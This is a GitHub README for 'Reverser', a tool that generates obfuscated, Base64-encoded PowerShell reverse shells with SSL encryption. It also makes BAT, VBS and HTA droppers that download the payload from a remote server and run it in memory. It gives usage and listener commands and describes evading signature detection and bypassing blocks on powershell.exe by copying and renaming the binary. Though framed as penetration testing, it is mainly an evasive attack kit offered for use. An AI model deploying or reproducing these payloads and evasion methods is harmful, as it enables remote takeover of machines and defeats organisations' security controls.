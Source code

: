 # Reverser: Reverse Shell Generator with SSL Encryption

## Overview

**Reverse** is a Python-based tool designed to generate obfuscated PowerShell scripts or batch files for establishing a reverse shell with SSL encryption. This tool can help in penetration testing scenarios where the goal is to bypass security mechanisms and establish a secure connection to a target machine.

## Features

- **Reverse Shell with SSL Encryption:** Generates PowerShell scripts that establish an encrypted reverse shell connection using SSL.
- **Obfuscation:** Each generated PowerShell script uses randomly selected variable names to avoid signature-based detection by security tools.
- **Base64 Encoding:** The PowerShell scripts are encoded in Base64 for additional obfuscation.
- **Batch File Generation:** Create a batch file that downloads and executes the encoded PowerShell script directly from a remote server.
- **VBS File Generation:** Create a VBS file that downloads and executes the encoded PowerShell script directly from a remote server.
- **HTA File Generation:** Create a HTA file that downloads and executes the encoded PowerShell script directly from a remote server.
- **Customizable:** Users can specify the IP address, port, and server URL for downloading the PowerShell script.

### Prerequisites

- Python 3.x
- OpenSSL (for certificate generation)

### Installation

Clone the repository:

```bash
git clone https://github.com/ShkudW/Reverser.git
cd Reverser
```

## Explain

The tool can generate Three types of files, as chosen by the user:
- A single PS1 file with obfuscation and Base64 encoding containing a Reverse shell payload.
- An encoded BAT file that connects to a remote server to download and Execute the encoded PS1 file.
- A VBS file that connects to a remote server to download and Execute the encoded PS1 file.
- A HTA file that connects to a remote server to download and Execute the encoded PS1 file.

The BAT, HTA and VBS files, during their initial request to the server to download the PS1 into memory, are executed over an encrypted channel using a Self-Signed Certificate. After downloading the PS1 file into memory, the BAT and VBS files will decode the script and establish an encrypted communication channel to create the Reverse Shell


This way, we can ensure that the communication is encrypted end-to-end.

## Usage

Creating only a PS1 file (obfuscated and Based64 encoded):
```bash
python3 Reverser.py -ip <Your_IP> -port <Your_PORT> -type ps1
```
![image](https://github.com/user-attachments/assets/a52d08f3-e61f-4a41-be2c-43bbb29ce7d9)

Creating a VBS file with the tool and transferring it to the listener's directory:
```bash
python3 Reverser.py -ip <Your_IP> -port <Your_PORT> -type vbs -server https://<Your_Listener_Server_IP_For_Downloadin_PS1/download/photo/corgi.png.ps1>
```
![image](https://github.com/user-attachments/assets/4fc96af2-76e4-4143-a598-a112b934526e)

Creating a BAT file with the tool and transferring it to the listener's directory:
```bash
python3 Reverser.py -ip <Your_IP> -port <Your_PORT> -type bat -server https://<Your_Listener_Server_IP_For_Downloadin_PS1/download/photo/corgi.png.ps1>
```
![image](https://github.com/user-attachments/assets/8213c8fc-da3b-4588-90b8-7382d599caca)



-----------------------------

Opening The listeners:

Opening a listener with the OpenSSL server to receive the Reverse shell connection:
```bash
openssl s_server -accept <Your_PORT> -cert reception.pem -key reception.key -quiet
```
open a listener with our server to handle the initial connection for downloading the PS1 file from the BAT/VBS file:
```bash
python3 listener.py -https_port|-http_port <Your_Listener_Server_PORT>
```


All The traffic is encrypted:
![image](https://github.com/user-attachments/assets/a2f21061-aa9c-425f-b631-0da774b01395)


Getting an encrypted Reverse Shell after downloading the PS1 file to the memory via encrypted connection:
![image](https://github.com/user-attachments/assets/eb34ed8a-e98c-4fed-b01d-f2bafdc00726)


# Update for the Tool from 01/09/2024:
Update to the tool: I added the -lolbas flag. In this mode, the use of this flag will only apply when creating a VBS file. In scenarios where the use of powershell.exe is blocked within organizations, the script will create a VBS file that copies powershell.exe from its original path:

'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe'

to a new location where the user executing the payload has write permissions, and it will generate a new name for the powershell.exe file (each time, a different name will be generated).

This way, the download of the ReverseShell payload in PS1 format will run from the newly created powershell.exe file:

Creating the VBS file with using the lolbas:
![image](https://github.com/user-attachments/assets/ecff3611-e901-4f8b-be9e-bdcc4cded767)

The VBS file:
![image](https://github.com/user-attachments/assets/81a0bf66-265d-4288-a6df-5369637e2fad)

# Enjoy :)
